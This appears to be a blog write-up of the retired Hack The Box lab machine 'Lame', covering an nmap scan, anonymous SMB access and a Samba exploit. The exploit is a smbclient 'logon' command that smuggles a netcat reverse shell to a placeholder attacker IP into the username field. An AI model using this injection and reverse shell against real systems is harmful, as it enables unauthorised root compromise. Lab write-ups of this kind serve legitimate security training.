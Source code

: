 ```yaml
---
layout: post
title: HacktheBox - Lame
toc: true
subtitle: Retired Machine
comments: false
---
```


## Lame ![propic](/pictures/lame/lame.png)

Start off with a network scan:
```
nmap -sV -sC -oA nmap/lame 10.10.10.3
```
![nmap](/pictures/lame/nmap.png)

There are open ports on TCP 21, 22, 139, 445.
Initally, I am interested in the anonymous logon in ftp(21), but there are no notable files there.

So, I divert my attention to the available smbshare(139,445) and attempt to login to the tmp directory via the command:
```
smbclient -N //10.10.10.3/tmp
```
I am able to successfully logon anonymously to the smb share and list the relevant commands.

![smb](/pictures/lame/smb.png)

I notice that the 'logon' command is available in smb. So, I can create a listener and reverse shell with the following commands:

```
nc -lvnp 6200
logon "./=`nohup nc -e /bin/sh <attacker_ip> 6200`"
```
I receive a shell and we are now root. From there, I am easily able to capture both the user.txt and root.txt under /home/makis/ and /root/.

![root](/pictures/lame/root.png)
